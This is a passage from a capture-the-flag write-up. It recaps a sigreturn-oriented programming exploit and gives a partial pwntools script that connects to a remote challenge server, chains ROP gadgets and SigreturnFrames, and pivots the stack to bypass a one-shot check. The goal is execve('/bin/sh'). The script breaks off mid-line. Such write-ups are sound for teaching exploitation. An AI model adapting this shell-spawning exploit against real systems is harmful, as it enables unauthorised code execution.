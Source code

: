 ### Short Recap of Exploit

1. Execute first sigret  
2. Shift stack to known address (0x402000)  
3. overwrite stack with 0 + ROPChain  
4. set up second sigret  
5. append "/bin/sh" at the end and calculate address  
6. trigger sigret  
7. execve("/bin/sh",0,0) and we win :)

### Final Exploit

Find my final exploit below:

```py  
from pwn import *  
import time

p = remote('193.57.159.27',52852)  
#p = process('./main')  
context.clear(arch='amd64')  
context.log_level = 'debug'

mov_rax_6 = 0x401079  
mov_rdi_rax = 0x401085  
mov_rax_9 = 0x40107f  
add_rax_rdi = 0x4010a1  
mov_rdi_al = 0x4010ad  
imul = 0x40109d

payload = b'A'*8  
payload += p64(mov_rax_6)  
payload += p64(mov_rdi_rax)  
payload += p64(mov_rax_9)  
payload += p64(add_rax_rdi) # set rax=0xf  
payload += p64(0x401072) # syscall (sigret)

frame = SigreturnFrame()  
frame.rax = 0 # read syscall  
frame.rdi = 0  
frame.rsi = 0  
frame.rdx = 0  
frame.rsp = 0x402000 # set stack to writable memory with know addr  
frame.rip = 0x401018 # jmp to get_input

# since we set rsp to 0x402000 (where sanity check is)  
# we can overwrite it with 0 to bypass the oneshot ;)

payload += bytes(frame)

# sending  
p.send(payload)  
time.sleep(0.1)

payload = p64(0) # overwrite sanity with 0  
payload += p64(mov_rax_6)  
payload += p64(mov_rdi_rax)  
payload += p64(mov_rax_9)  
payload += p64(add_rax_rdi) # set rax=0xf  
payload += p64(0x401072) # syscall (sigret)

frame = SigreturnFrame()  
bin_sh = 0x402000 + len(payload) + len(bytes(frame)) # calculate /bin/sh
address  
```